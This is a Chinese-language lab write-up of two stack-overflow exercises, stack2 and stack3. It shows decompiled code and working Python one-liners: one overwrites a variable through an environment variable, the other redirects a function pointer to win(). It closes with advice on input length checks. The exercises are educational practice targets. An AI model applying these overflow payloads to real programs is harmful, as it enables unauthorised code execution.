 # <center>栈溢出实验2</center>

## 实验概述

### 【目的】
1. 运行stack2，获得输出`you have correctly modified the variable`
2. 运行stack3，获得输出`code flow successfully changed`
### 【环境】
Linux
### 【工具】
python
### 【原理】
缓冲区溢出（buffer overflow），是针对程序设计缺陷，向程序输入缓冲区写入使之溢出的内容（通常是超过缓冲区能保存的最大数据量的数据），从而破坏程序运行、趁著中断之际并获取程序乃至系统的控制权。
## 实验步骤

### 【步骤】

#### stack2

```
$ binwalk stack2

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             ELF, 32-bit LSB executable, Intel 80386, version 1 (SYSV)
```
打开IDA进行分析。
```c#
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char dest; // [sp+8h] [bp-50h]@3
  int v5; // [sp+48h] [bp-10h]@3
  char *src; // [sp+4Ch] [bp-Ch]@1

  src = getenv("GREENIE");
  if ( !src )
    errx(1, "please set the GREENIE environment variable\n");
  v5 = 0;
  strcpy(&dest, src);
  if ( v5 == 218762506 )
    puts("you have correctly modified the variable");
  else
    printf("Try again, you got 0x%08x\n", v5);
  return 0;
}
```
跟实验一的stack1差不多，我们可以发现危险函数`strcpy(&dest, src);`
这里要控制src变量的值，需要自定义环境变量GREENIE，在Linux中，使用 `export 变量=值`
可以改变当前环境变量的值，于是有：
```
lometsj@ubuntu:~/prostar$ export GREENIE=`python -c 'print "A"*64 + "\x0a\x0d\x0a\x0d"'`
lometsj@ubuntu:~/prostar$ echo $GREENIE
 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
lometsj@ubuntu:~/prostar$ ./stack2
you have correctly modified the variable

```

#### stack2
```
$ binwalk stack3

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             ELF, 32-bit LSB executable, Intel 80386, version 1 (SYSV)

```

```c#
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [sp+Ch] [bp-4Ch]@1
  void (*v5)(void); // [sp+4Ch] [bp-Ch]@1

  v5 = 0;
  gets(&s);
  if ( v5 )
  {
    printf("calling function pointer, jumping to 0x%08x\n", v5);
    v5();
  }
  return 0;
}
int win()
{
  return puts("code flow successfully changed");
}
```
```
.text:0804846B                 public win
.text:0804846B win             proc near
.text:0804846B                 push    ebp
.text:0804846C                 mov     ebp, esp
.text:0804846E                 sub     esp, 8
.text:08048471                 sub     esp, 0Ch
.text:08048474                 push    offset s        ; "code flow successfully changed"
.text:08048479                 call    _puts
.text:0804847E                 add     esp, 10h
.text:08048481                 nop
.text:08048482                 leave
.text:08048483                 retn
.text:08048483 win             endp
```
可以发现危险函数`gets(&s);`,观察可以发现，当v5不为0时，程序会跳转到v5指向的地址执行，这里我们把v5指向函数`int win()`的地址，可以得到输出`code flow successfully changed`。

```
$ python -c "print 'a'*64 + '\x6b\x84\x04\x08'" | ./stack3
calling function pointer, jumping to 0x0804846b
code flow successfully changed

```
可以看到我们通过溢出成功跳转到了win函数执行代码。
### 【总结】
这次实验通过栈溢出简单的熟悉了Linux下环境变量的设置和c语言的函数指针，需要注意的是，通过export设置的环境变量只对当前终端有效。
可以发现，要使栈溢出发生，要满足以下条件：
- 程序允许用户输入
- 程序对用户的输入长度不加检查

栈溢出攻击是最为普遍而又危害极大的漏洞，要防御栈溢出攻击，首先要有良好的编码功力，对于用户的输入数据要做严格的长度检查，避免使用危险的函数。

